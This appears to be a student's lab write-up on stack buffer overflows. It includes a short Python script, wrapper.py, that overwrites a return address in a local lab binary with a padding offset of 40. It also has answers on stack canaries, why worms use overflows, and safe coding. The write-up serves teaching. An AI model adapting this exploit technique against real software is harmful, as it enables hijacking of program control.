






# Activity: Buffer Overflow

### 1.

<div style="text-align: center;">

</div>

#### Stack Layout:

<div style="text-align: center;">

</div>

<div style="page-break-after: always; visibility: hidden">
\pagebreak
</div>

### 2.

wrapper.py

```py
#!/usr/bin/python3
# wrapper
import os

# Create a buffer filled with 'x' characters
buff = 40 * (b'x')

# Convert the hexadecimal address to a byte array and reverse it
addr = bytearray.fromhex("4011b6")
addr.reverse()

# Append the reversed address to the buffer
buff += addr

# Print the command being executed for reference
print("exec ./ex2 with buff")

# Execute the external program './ex2' with the modified buffer as an argument
os.execv('./ex2', ['./ex2', buff])

```


From image, the greeting function is run twice.

<div style="page-break-after: always; visibility: hidden">
\pagebreak
</div>

### 3.

<div style="text-align: center;">

</div>
Runs the command to get these values.

After run attack.py,input the offset40 and return address to 401236 (From the previous value)

<div style="text-align: center;">

</div>

<div style="page-break-after: always; visibility: hidden">
\pagebreak
</div>

And you will get this

<div style="text-align: center;">

</div>

<div style="page-break-after: always; visibility: hidden">
\pagebreak
</div>

### 4. Bonus: Can Buffer Overflow Be Exploited When Canary-Style Protection is Active?

**Ans** Exploiting a buffer overflow when a canary-style protection is active is significantly more difficult because the canary value, placed just before the saved return address, must not be altered for the overflow to go undetected. This type of protection prevents simple buffer overflows from changing control flow since any modification to the canary will cause the program to crash. To bypass a canary, an attacker might need to leak its value beforehand or use more advanced techniques like return-oriented programming (ROP), which complicates the exploit significantly.

### 5.

#### Q1: Most viruses and worms use buffer overflow as a basis for their attack. Why is this the case?

**Ans** Buffer overflows are commonly used by viruses and worms because they allow attackers to inject and execute arbitrary code on the target machine. By exploiting a vulnerable program, attackers can alter the flow of execution and potentially gain control of the system, leading to unauthorized access, privilege escalation, or system compromise. The ability to modify critical stack values and execute malicious payloads makes buffer overflow a powerful tool for attackers.

#### Q2: Do you think exploiting buffer-overflow attacks is trivial? Please justify your answer.

**Ans** No, exploiting buffer overflow attacks is not trivial, especially with modern defenses in place. Techniques like stack canaries, Address Space Layout Randomization (ASLR), and Data Execution Prevention (DEP) add significant hurdles for attackers. Crafting a reliable exploit requires knowledge of the target’s memory layout, binary analysis, and careful construction of payloads. Even minor changes to the program or environment can render an exploit ineffective, making buffer overflow attacks complex and highly technical.

#### Q3: As a programmer, is it possible to avoid buffer overflow in your program? Explain your strategy.

**Ans** Yes, it is possible to avoid buffer overflow vulnerabilities by adopting secure programming practices. Using safe languages like Rust or Python can eliminate the risk entirely, as they provide built-in memory safety features. In languages like C/C++, avoid unsafe functions like strcpy and gets, use safer alternatives like snprintf, and perform proper bounds checking on all array and string operations. Enabling compiler protections such as stack canaries and ASLR adds additional security. Regular code reviews, static analysis, and fuzz testing further help identify potential vulnerabilities early on, ensuring code is robust and secure.
